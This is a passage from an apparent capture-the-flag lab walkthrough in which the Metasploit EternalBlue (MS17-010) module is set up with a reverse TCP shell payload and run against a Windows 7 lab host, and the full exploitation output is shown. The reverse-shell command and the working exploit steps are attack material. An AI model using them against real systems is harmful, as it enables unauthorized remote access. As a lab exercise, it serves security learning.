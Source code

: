 ```
                                        one)
   LHOST     192.168.1.9      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

### • Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

### With that done, run the exploit!

> _No answer needed_

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.9.203.24:4444
[*] 10.10.14.146:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.14.146:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.14.146:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.14.146:445 - The target is vulnerable.
[*] 10.10.14.146:445 - Connecting to target for exploitation.
[+] 10.10.14.146:445 - Connection established for exploitation.
[+] 10.10.14.146:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.14.146:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.14.146:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.14.146:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.14.146:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.14.146:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.14.146:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.14.146:445 - Sending all but last fragment of exploit packet
[*] 10.10.14.146:445 - Starting non-paged pool grooming
[+] 10.10.14.146:445 - Sending SMBv2 buffers
[+] 10.10.14.146:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.14.146:445 - Sending final SMBv2 buffers.
[*] 10.10.14.146:445 - Sending last fragment of exploit packet!
[*] 10.10.14.146:445 - Receiving response from exploit packet
[+] 10.10.14.146:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.14.146:445 - Sending egg to corrupted connection.
[*] 10.10.14.146:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.14.146
WARNING:  database "msf" has a collation version mismatch
DETAIL:  The database was created using collation version 2.36, but the operating system provides version 2.37.
HINT:  Rebuild all objects in this database that use the default collation and run ALTER DATABASE msf REFRESH COLLATION VERSION, or build PostgreSQL with the right library version.
[+] 10.10.14.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```